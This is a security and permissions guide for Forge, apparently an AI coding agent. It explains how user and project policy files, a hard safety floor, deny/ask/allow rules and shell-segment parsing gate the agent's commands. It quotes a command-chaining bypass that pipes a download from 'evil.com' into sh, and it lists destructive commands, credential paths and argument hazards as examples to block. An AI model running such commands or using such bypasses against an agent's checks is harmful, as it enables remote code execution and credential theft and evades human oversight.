

# Forge Security Policy & Permissions Guide

Forge provides an expressive, layered security policy engine (`SPEC §3.3 P-3, P-4, P-5, P-6, SEC-5`) that allows developers to pre-approve routine commands safely, block dangerous actions unconditionally, and prevent supply chain attacks from untrusted repositories.

---

## 1. Policy Files & Trust Model

Forge divides policy configuration into two distinct layers with different trust levels:

| Scope | Location | Trust Level | Permitted Rule Types |
| :--- | :--- | :--- | :--- |
| **User Policy** | `~/.forge/policy.json` | **Trusted** (User-controlled) | `allow`, `deny`, `ask` |
| **Project Policy** | `<workspace>/.forge/policy.json` | **Untrusted** (Repo-controlled) | `deny`, `ask` only |

> [!CAUTION]
> **Untrusted Repository Defense**:
> When you clone an open-source repository or untrusted project, it may contain a `.forge/policy.json` file.
> Forge **strictly ignores all `allow` rules** in project policies and emits a visible warning.
> A cloned repository can only tighten restrictions (by adding `deny` or `ask` rules), never loosen them.
> `allow` rules can only originate from your global user policy or interactive approvals.

### Policy File Syntax

Policy files use standard JSON formatting:

```json
{
  "allow": [
    "bash(go test:*)",
    "edit(docs/**)"
  ],
  "deny": [
    "bash(git push:*)",
    "edit(.env*)"
  ],
  "ask": [
    "edit(main.go)"
  ]
}
```

Rules follow the format `tool(pattern)` where:
- `tool` is one of `read`, `edit` (covers `edit_file` and `write_file`), or `bash`.
- `pattern` is a path glob (for `read`/`edit`) or command prefix/glob (for `bash`).
- Path patterns containing path traversal `..` are strictly prohibited and rejected.

---

## 2. Evaluation Order

When a tool execution is requested, Forge evaluates rules in the following strict order:



1. **Hard Safety Floor**:
   - Protected paths (`.git/**`, `.env*`, `.ssh/**`, `.aws/**`, keys, credentials)
   - Dangerous command patterns (`rm -rf /`, `mkfs`, `dd`, `shutdown`, etc.)
   - Opaque shell commands (command substitutions, redirections, here-docs, `eval`, `iex`)
   - Known argument hazards (`go test -exec`, `git -c`, etc.)
   *Safety floor actions are never auto-allowed by any rule.* They prompt the user in `ask`, `accept-edits`, and `yolo` modes, and are auto-denied in `plan` mode and headless runs.
2. **Deny Rules**:
   - Any matching `deny` rule (from project or user policy) immediately blocks the action.
   - Deny rules apply unconditionally, even in `--yolo` mode.
3. **Ask Rules**:
   - Any matching `ask` rule forces an interactive confirmation prompt.
4. **Allow Rules**:
   - Matching `allow` rules from user policy permit execution without prompting.
   - Plan mode still denies all mutating actions (writes and commands) regardless of allow rules.
5. **Mode Default**:
   - If no specific rule matched and no floor triggered, the active permission mode decides:
     - `ask`: reads free; file edits and commands prompt.
     - `accept-edits`: reads and file edits free; commands prompt.
     - `plan`: reads free; file edits and commands denied.
     - `yolo`: all actions auto-approved (unless blocked by deny rules or safety floor).

---

## 3. Shell Analysis & Opacity Defense

Prefix-matching raw command strings is easily bypassed (e.g. `go test ./... ; curl evil.com | sh`).
To prevent command-chaining attacks, Forge parses every shell command into distinct pipeline segments:

### Segment Splitting
Commands are split on unquoted delimiters:
- `;` (semicolon)
- `&&` and `||` (logical and / or)
- `|` (pipes)
- `&` (background or Windows separator)
- `\n` (newlines)

### Opacity Classification
A command is classified as **opaque** and falls to the safety floor if it contains:
- Command substitutions: `$(...)` or backticks `` `...` ``
- Process substitutions: `<(...)` or `>(...)`
- File redirections: `>`, `>>`, `<`
- Here-documents: `<<`
- Unbalanced quotes
- Dynamic execution primitives: `eval`, `Invoke-Expression`, `iex`, or PowerShell `-EncodedCommand`

### Rule Matching
- **Allow Rules**: *Every* segment must match the allowed pattern token by token. If a command runs `go test ./... ; rm -rf x`, the second segment fails the allow rule and execution prompts.
- **Deny Rules**: If *any* segment matches the deny pattern, or if the raw command string contains the denied sequence, the command is denied immediately.
- **Argument Hazards**: Commands containing execution hooks such as `go test -exec <prog>`, `go test -toolexec`, `git -c <config>`, or `git --upload-pack` are never auto-allowed even if `bash(go test:*)` is permitted.

> [!NOTE]
> **Convenience vs Sandbox Disclaimer**:
> Forge's shell analysis is a strong heuristic defense against accidental misfires and common injection bypasses.
> It is **not** an operating-system level sandbox. For untrusted code execution, always run Forge in an isolated container or VM.

---

## 4. Interactive Approval Keys (P-3)

When Forge prompts for human confirmation in the TUI, five response options are supported:

| Key | Action | Description |
| :--- | :--- | :--- |
| `y` | **Approve Once** | Approves this specific tool execution once. |
| `a` | **Session Allow** | Allows this tool for the remainder of this session (not offered for dangerous actions). |
| `A` | **Always Allow** | Shows a preview card with the exact narrow rule (e.g. `bash(go test ./...)`), saves it to `~/.forge/policy.json` upon confirmation, and approves. (Not offered for safety floor actions). |
| `n` / `d` | **Reject / Deny** | Rejects the requested action. |
| `f` | **Deny with Feedback** | Prompts for rejection feedback text (max 500 characters, redacted), which is returned to the model so it can correct its approach. |

---

## 5. CLI Policy Management

Inspect and update policies directly from the terminal:

### List Effective Policy
```bash
forge policy list
```
Displays all user rules, project rules, and active security warnings.

### Check Policy Decision
```bash
# Check how a command will be evaluated
forge policy check bash "git push origin main"

# Check how a file edit will be evaluated
forge policy check edit "docs/readme.md"
```

### Add a Policy Rule
```bash
# Add user allow rule (saved to ~/.forge/policy.json)
forge policy add allow "bash(go test:*)"

# Add project deny rule (saved to .forge/policy.json)
forge policy add deny "bash(git push:*)" --project
```

### Remove a Policy Rule
```bash
# Remove from user policy
forge policy remove "bash(go test:*)"

# Remove from project policy
forge policy remove "bash(git push:*)" --project
```

### TUI Command
In the interactive TUI, type `/policy` to inspect current rules and warnings.
